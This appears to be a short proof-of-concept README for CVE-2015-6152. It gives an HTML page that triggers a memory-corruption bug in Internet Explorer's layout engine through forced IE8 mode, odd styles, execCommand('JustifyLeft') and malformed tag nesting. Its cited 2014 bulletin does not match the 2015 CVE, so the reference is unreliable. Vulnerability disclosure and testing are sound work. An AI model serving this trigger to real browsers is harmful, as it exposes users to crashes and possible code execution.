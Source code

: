 # CVE-2015-6152

## PoC

```html
<!DOCTYPE HTML>
<html>
<meta http-equiv="X-UA-Compatible" content="IE=8" />
<style>
    small{ -ms-block-progression: lr; -ms-filter: "vv"; }
</style>
<script>
    function trigger() { document.execCommand("JustifyLeft"); }
</script>
<nolayer>blue<small>frost</small>
<applet><tt>security</applet>
<script>trigger();</script>
</html>
```

## Reference

+ [Microsoft Security Bulletin](https://docs.microsoft.com/en-us/security-updates/securitybulletins/2014/ms14-064)

